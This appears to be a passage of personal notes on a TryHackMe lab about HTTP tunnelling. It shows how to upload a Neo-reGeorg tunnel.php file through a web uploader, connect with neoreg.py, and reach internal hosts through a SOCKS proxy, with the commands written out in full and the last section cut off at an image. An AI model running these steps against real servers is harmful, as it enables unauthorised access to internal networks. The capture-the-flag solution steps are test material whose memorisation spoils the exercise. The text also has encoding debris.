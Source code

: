 ![The Victim's uploader](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/2445ab5b8bc971b51f8ebe3ffbd0c07d.png)

To upload theÂ PHPÂ file, useÂ adminÂ as the key to let you upload any files into theÂ uploader.thm.com. Once we have uploaded the file, we can access it on the following URL:Â http://10.10.39.16/uploader/files/tunnel.php.

Creating an HTTPTunnel  

```markup
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.39.16/uploader/files/tunnel.php
```

We need to use theÂ neoreg.pyÂ to connect to the client and provide the key to decrypt the tunneling client. We also need to provide a URL to theÂ PHPÂ file that we uploaded on the uploader machine.

Once it is connected to the tunneling client, we are ready to use the tunnel connection as aÂ proxyÂ binds on our local machine,Â 127.0.0.1,Â on port 1080.

For example, if we want to access theÂ app.thm.com, which has an internal IP addressÂ 172.20.0.121Â on port 80, we can use the curl command withÂ --socks5Â argument. We can also use otherÂ proxyÂ applications, such as ProxyChains, FoxyProxy, etc., to communicate with the internal network.Â 

Access the app.thm.com machine via theHTTPTunneling  

```markup
root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
Welcome to APP Server!
```

The following diagram shows the traffic flow as it goes through the uploader machine and then communicates with the internal network devices, which in this case, is the App machine. Note that if we check the network traffic from the App machine, we see that the source IP address of incoming traffic comes from the uploader machine.

![HTTP Tunneling diagram](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b32d6d9d9c3377acf155044204ec6982.png)  

Now replicate theÂ HTTPÂ Tunneling steps to establish tunneling over theÂ HTTPÂ protocol to communicate withÂ flag.thm.comÂ withÂ 172.20.0.120Â asÂ an IP address on portÂ 80. Note that if you access theÂ flag.thm.comÂ website from other machines within the network, you won't get the flag.

### Getting the flag

We need to use `Neo-reGeorg`:

```
python3 neoreg.py generate -k thm
```

Once we generated the files, we need to go to:

```
http://IP/uploader
```

On here, we need to upload our `tunnel.php` file the tool generated:

![Pasted image 20250516180630.png](../../../IMAGES/Pasted%20image%2020250516180630.png)

